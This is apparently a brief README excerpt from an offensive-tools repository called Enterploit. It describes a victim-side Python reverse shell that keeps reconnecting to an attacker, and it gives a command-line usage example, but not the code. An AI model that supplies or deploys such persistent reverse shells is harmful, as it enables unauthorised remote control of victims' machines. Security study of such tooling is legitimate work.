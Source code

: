 ## Reverse shell victim side scripts

  
  

***[rs-v-000001.py](https://github.com/IliyaBadri/Enterploit/blob/main/Exploits/Reverse-Shell/Victim/rs-v-000001.py)***:
This script reconnects to the attacker even after an error. This script also tries reconnecting even if the attacker is not present.

**Usage**

    python3 rs-v-000001.py -i 127.0.0.1 -p 8888
